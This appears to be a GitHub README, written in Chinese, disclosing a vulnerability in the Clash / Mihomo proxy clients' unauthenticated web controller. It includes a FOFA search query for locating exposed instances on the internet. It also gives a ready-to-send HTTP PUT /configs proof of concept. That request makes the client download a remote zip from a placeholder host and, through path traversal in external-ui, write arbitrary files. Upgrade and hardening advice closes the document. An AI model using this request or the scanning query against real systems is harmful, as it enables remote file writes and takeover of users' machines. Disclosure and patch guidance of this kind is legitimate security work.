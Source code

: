 # Mihomo-RCE
Clash多版本存在该漏洞，如：Clash Verge。
漏洞版本：Clash ≤2.2.4 , Mihomo ≤v1.19.8


Clash的Web控制服务，默认开启的（默认端口为9090/9097）且默认空秘钥，且所有历史版本（Clash ≤2.2.4 , Mihomo ≤v1.19.8）都受此漏洞影响。

FOFA查询：body="\"hello\":\"mihomo\"" || body="\"hello\":\"clash\""

#POC
```
PUT /configs HTTP/1.1
Host: 127.0.0.1:9097
Connection: keep-alive
Content-Length: 196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Content-Type: text/plain;charset=UTF-8

{"payload":"\n  external-ui: gY1bN0iF0kG2eN4z\n  external-ui-url: http://www.demo.com/demo.zip\n                external-ui-name: demo","path":""}
```
external-ui-url位置的远程文件http://www.demo.com/demo.zip可路径穿越，通过external-ui: ../../../tmp的方式，突破目录限制，实现任意文件写入。


#【安全修复建议】
1、将Clash客户端和Mihomo升级至已修复版本：
Clash>= v2.3.0
Mihomo >= v1.20.1
2、关闭不必要的服务端口
3、外部监听地址增加秘钥限制。
